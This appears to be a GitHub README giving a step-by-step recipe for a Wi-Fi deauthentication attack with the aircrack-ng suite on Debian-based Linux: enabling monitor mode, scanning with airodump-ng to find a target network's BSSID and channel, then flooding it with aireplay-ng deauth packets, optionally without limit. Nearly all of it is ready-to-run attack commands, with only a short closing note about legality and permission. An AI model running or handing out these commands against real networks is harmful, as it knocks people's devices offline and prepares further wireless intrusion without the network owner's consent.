 # Deauthentication Attack using `aircrack-ng` suite on Linux

Here's a basic README for performing a deauthentication attack using `aircrack-ng` suite in Ubuntu/Debian-based system (may be identical on other system):

---

## Prerequisites

- Wireless network card that support monitor mode and packet injection (e.g., Atheros AR9565)
- `aircrack-ng` suite installed, if not
  
  ```bash
  sudo apt install aircrack-ng
  ```

## Steps

1. **Open Terminal**: Press `Ctrl + Alt + T` to open the terminal.

2. **Check Wireless Interface**: Determine the name of your wireless network interface. Use the following command:
   
    ```bash
    iwconfig
    ```
    Identify your wireless interface (e.g., wlan0, wlp3s0).

3. **Put your Wireless Interface in Monitor Mode**: Use `airmon-ng` to put your wireless interface in monitor mode. Replace `wlan0` with your wireless interface name:
   
    ```bash
    sudo airmon-ng start wlan0
    ```
    This command usually rename your interface (e.g., `wlan0mon` `wlp3s0mon`).

4. **Check Monitor Interface**: Verify that the monitor mode has been enabled by running:

   ```bash
   iwconfig
   ```
   You should see your interface listed in monitor mode (e.g., `wlan0mon` `wlp3s0mon`).

5. **Scan for Networks**: Use `airodump-ng` to scan for nearby wireless networks and find the target's BSSID (MAC address) and channel:

   ```bash
   sudo airodump-ng wlan0mon
   ```
   This will scan nearby wireless networks on all channel. Use `Ctrl+C` to stop scanning.

6. **Scan for Target Nerworks**: After knowing which channel the target are, use `--channel` and re-scan. 
   
   ```bash
   sudo airodump-ng wlan0mon --channel 1
   ```
   Replace `1` with your target's channel.

7. **Execute Deauthentication Attack**: Open a new terminal window or tab and execute the deauthentication attack using the following command:

   ```bash
   sudo aireplay-ng -0 5 -a <BSSID> wlan0mon
   ```
   Replace `<BSSID>` with the BSSID of the target network obtained from the previous step.

   `-0` flag specifies the deauthentication attack.
   `5` represents the number of deauthentication packets to send. Adjust as needed. `0` means unlimited.

8. **Monitor Activity**: Switch back to the first terminal where `airodump-ng` is running. You should see devices disconnecting and attempting to reconnect to the target network.

9. **Exit Monitor Mode**: Once you've completed the attack, exit monitor mode using:

   ```bash
   sudo airmon-ng stop wlan0mon
   ```
   Replace `wlan0mon` with your monitor interface name if different.

## Notes
- **Caution**: Deauthentication attacks can be illegal if performed without proper authorization. Ensure you have permission before conducting such tests.
- Use responsibly and in controlled environments.
- Be mindful of the laws and regulations related to wireless network security in your area.
